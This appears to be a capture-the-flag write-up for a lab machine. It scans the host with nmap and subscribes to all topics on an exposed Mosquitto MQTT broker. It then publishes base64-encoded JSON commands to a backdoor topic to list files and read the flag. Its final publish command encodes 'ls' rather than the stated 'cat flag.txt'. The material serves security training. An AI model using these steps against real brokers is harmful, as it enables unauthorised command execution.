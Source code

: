 IP address 10.10.59.207

#nmap #mosquitto #base64


# Nmap
```bash
nmap -sC -sV 10.10.59.207 -T5
```
![[Pasted image 20240610203505.png]]
All standard ports are filtered with the Nmap scan. Switching to scanning all ports to see which ones are open.
```bash
nmap -p- 10.10.59.207
```
After the scan we see that the only port open is1883. 
### open ports
- 1883 (mqtt)

![[Pasted image 20240610204254.png]]

# What is mosquitto

> [!NOTE]
> The MQTT protocol provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for Internet of Things messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers.
> https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm
![[Pasted image 20240610213041.png]]

## Commands we will need

| Commands      | Descriptions                                               |
| ------------- | ---------------------------------------------------------- |
| mosquitto_sub | command line utility for subscribing to topics on a broker |
| mosquitto_pub | command line utility for publishing messages to a broker   |

## Installing the software

```bash
sudo apt-get install mosquitto mosquitto-clients
```

## Subscribing to all groups
```bash
mosquitto_sub -t "#" -h 10.10.59.207
```

## Decoding initial message
After some time we see a long base64 string that does not match everything else being logged. Decoding the base64 shows us the what is publishing the suspicious things.
![[Pasted image 20240610205607.png]]

## Publishing a message
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "test"
```

Publishing a message with test returns a base64 encoded string. Decoding the string states that test is an invalid command. Lets fix the issue and try again

```python
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
```
![[Pasted image 20240610211410.png]]
## Formatting the command
After fixing the issue we need to encode this command in base64.
```python
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==
```
![[Pasted image 20240610211931.png]]
## Catting the flag
Now that we see what the flag filename is called let's cat the flag. We will follow the same format. Change the command to cat flag.txt, base64 encode the message, and than publish it.
```bash
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=
```
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo="
```

![[Pasted image 20240610212131.png]]
# Resources
https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm
